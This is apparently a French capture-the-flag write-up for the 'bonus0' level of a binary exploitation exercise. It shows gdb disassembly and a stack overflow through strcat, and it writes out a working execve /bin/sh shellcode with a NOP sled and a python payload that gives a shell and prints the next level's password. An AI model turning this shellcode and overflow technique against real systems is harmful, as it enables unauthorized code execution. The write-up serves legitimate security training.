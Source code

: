 # BONUS 0

On se connecte sur le bonus0, ou se trouve un **binaire** <code>bonus0</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   %ebp
   0x080485a5 <+1>:     mov    %esp,%ebp
   0x080485a7 <+3>:     and    $0xfffffff0,%esp
   0x080485aa <+6>:     sub    $0x40,%esp
   0x080485ad <+9>:     lea    0x16(%esp),%eax
   0x080485b1 <+13>:    mov    %eax,(%esp)
   0x080485b4 <+16>:    call   0x804851e <pp>
   0x080485b9 <+21>:    lea    0x16(%esp),%eax
   0x080485bd <+25>:    mov    %eax,(%esp)
   0x080485c0 <+28>:    call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:    mov    $0x0,%eax
   0x080485ca <+38>:    leave
   0x080485cb <+39>:    ret
End of assembler dump.
(gdb) > disas pp
Dump of assembler code for function pp:
   0x0804851e <+0>:     push   %ebp
   0x0804851f <+1>:     mov    %esp,%ebp
   0x08048521 <+3>:     push   %edi
   0x08048522 <+4>:     push   %ebx
   0x08048523 <+5>:     sub    $0x50,%esp
   0x08048526 <+8>:     movl   $0x80486a0,0x4(%esp)
   0x0804852e <+16>:    lea    -0x30(%ebp),%eax
   0x08048531 <+19>:    mov    %eax,(%esp)
   0x08048534 <+22>:    call   0x80484b4 <p>
   0x08048539 <+27>:    movl   $0x80486a0,0x4(%esp)
   0x08048541 <+35>:    lea    -0x1c(%ebp),%eax
   0x08048544 <+38>:    mov    %eax,(%esp)
   0x08048547 <+41>:    call   0x80484b4 <p>
   0x0804854c <+46>:    lea    -0x30(%ebp),%eax
   0x0804854f <+49>:    mov    %eax,0x4(%esp)
   0x08048553 <+53>:    mov    0x8(%ebp),%eax
   0x08048556 <+56>:    mov    %eax,(%esp)
   0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:    mov    $0x80486a4,%ebx
   0x08048563 <+69>:    mov    0x8(%ebp),%eax
   0x08048566 <+72>:    movl   $0xffffffff,-0x3c(%ebp)
   0x0804856d <+79>:    mov    %eax,%edx
   0x0804856f <+81>:    mov    $0x0,%eax
   0x08048574 <+86>:    mov    -0x3c(%ebp),%ecx
   0x08048577 <+89>:    mov    %edx,%edi
   0x08048579 <+91>:    repnz scas %es:(%edi),%al
   0x0804857b <+93>:    mov    %ecx,%eax
   0x0804857d <+95>:    not    %eax
   0x0804857f <+97>:    sub    $0x1,%eax
   0x08048582 <+100>:   add    0x8(%ebp),%eax
   0x08048585 <+103>:   movzwl (%ebx),%edx
   0x08048588 <+106>:   mov    %dx,(%eax)
   0x0804858b <+109>:   lea    -0x1c(%ebp),%eax
   0x0804858e <+112>:   mov    %eax,0x4(%esp)
   0x08048592 <+116>:   mov    0x8(%ebp),%eax
   0x08048595 <+119>:   mov    %eax,(%esp)
   0x08048598 <+122>:   call   0x8048390 <strcat@plt>
   0x0804859d <+127>:   add    $0x50,%esp
   0x080485a0 <+130>:   pop    %ebx
   0x080485a1 <+131>:   pop    %edi
   0x080485a2 <+132>:   pop    %ebp
   0x080485a3 <+133>:   ret
End of assembler dump.
(gdb) > disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:     push   %ebp
   0x080484b5 <+1>:     mov    %esp,%ebp
   0x080484b7 <+3>:     sub    $0x1018,%esp
   0x080484bd <+9>:     mov    0xc(%ebp),%eax
   0x080484c0 <+12>:    mov    %eax,(%esp)
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:    mov    %eax,0x4(%esp)
   0x080484da <+38>:    movl   $0x0,(%esp)
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
   0x080484e6 <+50>:    movl   $0xa,0x4(%esp)
   0x080484ee <+58>:    lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:    mov    %eax,(%esp)
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    movb   $0x0,(%eax)
   0x080484ff <+75>:    lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:    movl   $0x14,0x8(%esp)
   0x0804850d <+89>:    mov    %eax,0x4(%esp)
   0x08048511 <+93>:    mov    0x8(%ebp),%eax
   0x08048514 <+96>:    mov    %eax,(%esp)
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:   leave
   0x0804851d <+105>:   ret
End of assembler dump.
```

Après analyse du fichier (**source.c**), on se rend compte que l'exploitation du fichier se fera par la fonction **strcat**.

On cherche a obtenir le buffer dans le main, ce qui nous permettra de trouver l'offset :

```gdb
(gdb) > b * 0x080485c0
Breakpoint 1 at 0x80485c0
(gdb) > run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAA
 -
ABCDEFGHIJKLMNOPQRSTUVW

Breakpoint 1, 0x080485c0 in main ()
(gdb) > ni
AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRST ABCDEFGHIJKLMNOPQRST
0x080485c5 in main ()
(gdb) > i f
Stack level 0, frame at 0xbffff700:
 eip = 0x80485c5 in main; saved eip 0x4d4c4b4a
 Arglist at 0xbffff6f8, args:
 Locals at 0xbffff6f8, Previous frame's sp is 0xbffff700
 Saved registers:
  ebp at 0xbffff6f8, eip at 0xbffff6fc
```
Sur l'eip sauvegardée, on voit que l'adresse (en little indian) commence par notre 'J', qui correspond donc au 10em caractère de notre seconde chaine.

> On commence à écraser l'eip au 10em caractère, l'offset est donc de 9.

Nous allons devoir rajouter un shellcode car nous n'avons pas la place de faire un ret2libc dans le peu de mémoire qu'il nous reste (**20 - 9 = 11** alors que ret2libc nécessite 12 bytes).

On écrit un shellcode dans une variable d'environement accessible pour le programme, et on trouve son adresse grâce a un petit script en c :

```shell
export SHELLCODE=$(python -c "print '\x90'*100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x6
2\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")

echo "#include <stdio.h>
#include <stdlib.h>
int main(){ printf(\"SHELL= %p\n\", getenv(\"SHELLCODE\")); return 0; }" > /tmp/getsh.c

cd /tmp/
gcc getsh.c
./a.out
SHELL= \x\x\x\x
cd
```

Une fois l'adresse du shellcode dans l'environement trouvé, on peut appliquer la fonction suivante:
<pre><code>python -c "print 'A' * 4095 + '\n' + 'B' * 9 + '\x\x\x\x' + 'B' * 7"</code></pre>

On ajoute A * 4095 + '\n' au premier argument pour pouvoir insérer le second argument, car la fonction **read** a un buffer de 4096, elle continuera donc de lire la suite des instructions dans stdin. Ce qui nous permet d'écrire nos deux arguments en une fois.
Le '\n' permet de passer outre le strchr qui le transformera en '\0'.
On mets 9 caractères au début du second argument pour arriver à la fin de l'offset et inserer à la suite notre shellcode.
On est obligé d'avoir au moins 7 caractères en plus pour le deuxième argument pour le **strncpy**.

```shell
> (python -c "print 'A' * 4095 + '\n' + 'B' * 9 + '\x\x\x\x' + 'B' * 7"; cat) | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB
whoami
bonus1
cd ../bonus1 && cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

For download :
<pre><code>scp -P4242 bonus0@IP:bonus0 .</code></pre>
> Password : f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728


